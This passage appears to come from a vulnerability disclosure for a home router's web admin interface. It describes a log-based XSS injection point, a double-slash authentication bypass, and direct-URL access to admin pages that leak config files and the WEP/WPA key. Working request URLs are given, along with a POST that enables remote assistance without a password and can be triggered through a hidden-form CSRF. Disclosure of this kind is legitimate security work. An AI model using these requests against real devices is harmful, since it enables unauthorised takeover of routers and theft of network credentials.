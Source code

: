     http://192.168.1.254/cgi/b/events/?ce=1&be=0&l0=3&l1=-1
    http://192.168.1.254/cgi/b/events/

    Oct 27 16:10:19 LOGIN User <code>[XSS_payload_goes_here]` tried to login on [HTTPS] (from 192.168.1.66)</code></pre>

    The line where the payload is returned looks like the following:

    <td class='evenrow' align='left' colspan='3'>LOGIN User <BADCHARSHERE> tried to login on [HTTP] (from 192.168.1.66)</td>

    ### Vulnerability #4: Double-slash Authentication Bypass

    This authentication bypass allows intruders to view any page that would normally require the admin password. Additionally, _any administrative request can be made without requiring the admin password_. The bug is extremely simple to exploit, and works like a charm! By simply requesting the password-protected resource with two forward slashes, the authentication is bypassed completely. I.e.:

* Basic wireless configuration info: `http://192.168.1.254/cgi/b/_wli_/cfg//?ce=1&be=1&l0=4&l1=0`
* Local network information: `http://192.168.1.254/cgi/b/intfs/_intf_/cfg//?ce=1&be=1&l0=4&l1=3&name=`
* Firewall security settings: `http://192.168.1.254/cgi/b/secpol/cfg//` and `http://192.168.1.254/cgi/b/secpol/cfg//?ce=1&be=1&l0=4&l1=7`
* Internet connection information: `http://192.168.1.254/cgi/b/is/_pppoa_/ov//?ce=1&be=1&l0=4&l1=2`
* Game and Application sharing: `http://192.168.1.254/cgi/b/games/cfg//?ce=1&be=1&l0=4&l1=5` and `http://192.168.1.254/cgi/b/games/cfg//`
* Remote assistance: `http://192.168.1.254/cgi/b/ras//`
* Backup and Restore: `http://192.168.1.254/cgi/b/bandr//`
* _Dump config file_: `http://192.168.1.254/cgi/b/backup/user.ini//`

    Not only administrative pages can be viewed without a password, but administrative changes can also be made. I.e.: the following request enables remote assistance without requiring a password:

    POST /cgi/b/ras//?ce=1&be=1&l0=5&l1=5 HTTP/1.1

    0=31&1=&30=12345678

    _The previous request could be performed by a malicious website through a hidden form as shown in Exploit #1._

    ### Vulnerability #5: A-to-C authentication bypass

    Let me explain what I mean by _A-to-C authentication bypass_. Sometimes on a application we're supposed to go through an intermediate B point before we reach C. However, sometimes, knowing C in advance might allow you to gain access to data without going through B. In this case, by simply knowing URLs that would only be accessible to authenticated admin users, an attacker can bypass the password prompt completely.

    For instance, some pages that are only available after accessing the _Advanced_ section are supposed to require a password to be accessed, but can be accessed without authenticating. i.e.:

    http://192.168.1.254/cgi/b/_wli_/seccfg/?ce=1&be=1&l0=4&l1=0

Keep in mind that the WEP/WPA key in the clear. There are other pages whose links can only be seen after authenticating, but can actually be accessed without authenticating by simply accessing the URL directly. However, the Wireless Security page is probably the most interesting one.
